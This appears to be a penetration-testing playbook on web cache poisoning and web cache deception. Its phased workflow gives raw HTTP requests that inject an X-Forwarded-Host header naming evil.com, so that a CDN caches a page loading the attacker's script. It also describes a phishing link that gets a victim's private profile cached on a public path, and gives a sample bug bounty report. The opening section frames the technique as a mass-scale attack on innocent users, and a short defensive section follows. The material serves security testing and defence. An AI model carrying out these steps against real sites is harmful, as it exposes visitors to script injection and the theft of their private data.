

# Web Cache Poisoning

## When to Use
- When targeting high-traffic web applications utilizing aggressive content caching layers like Cloudflare, Fastly, Akamai, or Varnish.
- When you discover Cross-Site Scripting (XSS) or Open Redirect vulnerabilities that rely on HTTP headers (e.g., `X-Forwarded-Host`) rather than URL parameters.
- To execute a mass-scale attack where exploiting the cache server once compromises thousands of innocent users visiting standard pages (like `/index.html`).

## Workflow

### Phase 1: Cache Architecture Reconnaissance

```http
# Concept: You need to understand how the cache server identifies identical requests.
# CDNs usually "key" a cache based on the URL path and the Host header.
# "Unkeyed" inputs are headers the cache IGNORES when matching files, but the 
# BACKEND application still processes.

# 1. Identify active caching by looking at HTTP response headers:
HTTP/1.1 200 OK
X-Cache: HIT      # Indicates the response came from the cache
Age: 15           # Indicates the cached file is 15 seconds old
Cache-Control: public, max-age=1800 # Time-to-Live is 30 minutes

# 2. Bust the cache for safe testing (Crucial Rule!)
# Always append a random query parameter so you don't poison production traffic while testing.
GET /?cb=xyz123 HTTP/1.1
```

### Phase 2: Finding Unkeyed Inputs (Param Miner)

```text
# Concept: We need to find HTTP headers that alter the backend response without 
# altering the cache key.

# 1. Use the "Param Miner" extension in Burp Suite Professional.
# Right-click request -> Extensions -> Param Miner -> "Guess headers".

# 2. Example Manual Probing:
GET /?cb=xyz123 HTTP/1.1
Host: target.com
X-Forwarded-Host: evil.com

# 3. Analyze the Backend Response:
HTTP/1.1 200 OK
<script src="https://evil.com/static/vendor.js"></script>

# Discovery: The backend dynamically generated a <script> tag based on our 
# `X-Forwarded-Host` header. Because `X-Forwarded-Host` is unkeyed, this is highly vulnerable.
```

### Phase 3: Exploiting the Web Cache Poisoning

```text
# Goal: Force the CDN to save our malicious response and serve it to everyone.

# 1. Prepare your malicious payload server (evil.com/static/vendor.js)
# File contains: alert(document.domain)

# 2. Execute the Poisoning (Targeting the live, non-cache-busted path)
GET / HTTP/1.1
Host: target.com
X-Forwarded-Host: evil.com

# Keep sending this request until the cache TTL expires (or the cache drops).
# Eventually, the CDN will forward your request to the backend.
# The backend will respond with the malicious script source.
# The CDN will save (HIT) this response into the cache for the key `GET target.com/`.

# 3. Verification:
# Load the homepage normally in your browser.
GET / HTTP/1.1
Host: target.com

# The page loads, but XSS executes immediately because the CDN served the poisoned cached copy.
```

### Phase 4: Web Cache Deception (A Different Attack)

```text
# Concept: Instead of poisoning a public page, trick a victim into caching their 
# PRIVATE data on a PUBLIC, static path.

# Scenario: The CDN caches all `.css` files ignoring query params or cookies.
# Normal request: `GET /profile` -> Cache: MISS (Private data)
# Malicious request: `GET /profile/avatar.css` -> Cache: HIT (Because of .css extension)

# 1. Attacker sends phishing link to victim: 
# https://target.com/profile/avatar.css

# 2. Victim clicks link. The backend ignores `/avatar.css` as a routing error and 
# serves the victim's private `/profile` dashboard data.

# 3. The CDN sees the `.css` extension on the URL, assumes it's static public content, 
# and CACHES the victim's private profile HTML!

# 4. Attacker navigates to `https://target.com/profile/avatar.css` and views the victim's cached profile.
```

#### Decision Point 🔀


## 🔵 Blue Team Detection & Defense
- **Strict Cache Keys**: Ensure that any HTTP header used by the backend application to alter the response (e.g., `X-Forwarded-Host`, `Origin`) is explicitly added to the CDN's cache key configuration (the "Vary" header).
- **Disable Risky Headers**: If your application does not rely on `X-Forwarded-Host` or `X-Original-URL`, configure the edge proxy reverse proxy to drop those headers entirely before they reach the backend application.
- **Strict Routing (Defense against Deception)**: The backend application framework must implement strict routing. A request to `/profile/style.css` must return a 404 error if that file does not exist, rather than gracefully degrading and rendering the user's dashboard data.

## Key Concepts
| Concept | Description |
|---------|-------------|
| Web Cache Poisoning | Manipulating a cache into storing malicious content and serving it to users |
| Web Cache Deception | Tricking a user into forcing the cache to save their sensitive, private content on a publicly accessible cached path |
| Unkeyed Input | HTTP headers or parameters that a CDN completely ignores when deciding if a request matches a stored cached file |
| Cache Busting | Adding a random query parameter to ensure a request bypasses existing cached files and fetches fresh data |

## Output Format
```
Bug Bounty Report: Stored XSS via Web Cache Poisoning
=====================================================
Vulnerability: Web Cache Poisoning resulting in Stored XSS
Severity: High (CVSS 8.2)
Target: GET /dashboard

Description:
The application's Cloudflare caching configuration relies heavily on the URL path but ignores the `X-Forwarded-Host` HTTP header (unkeyed input). The backend application uses this header to dynamically rewrite resource paths. By sending a request with a malicious `X-Forwarded-Host` header precisely when the cache expires, an attacker can poison the `/dashboard` path. 

Reproduction Steps:
1. Identify the cache expiration timer via the `Age` HTTP response header.
2. Send the following request precisely as the cache hits 0:
   GET /dashboard HTTP/1.1
   Host: target.com
   X-Forwarded-Host: evil-attacker.com
3. The Cloudflare edge node requests the page from the backend. The backend constructs the page with `<script src="https://evil-attacker.com/app.js">`.
4. Cloudflare caches this payload.
5. All corporate users navigating to `/dashboard` for the next 30 minutes are served the malicious script, executing XSS.

Impact:
Mass-scale Account Takeover. Exploitation requires zero interaction from the victim other than visiting the legitimate landing page.
```

## References
- PortSwigger: [Web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning)
- PortSwigger: [Web cache deception](https://portswigger.net/web-security/web-cache-deception)
- HackTricks: [Cache Deception & Poisoning](https://book.hacktricks.xyz/pentesting-web/cache-deception)
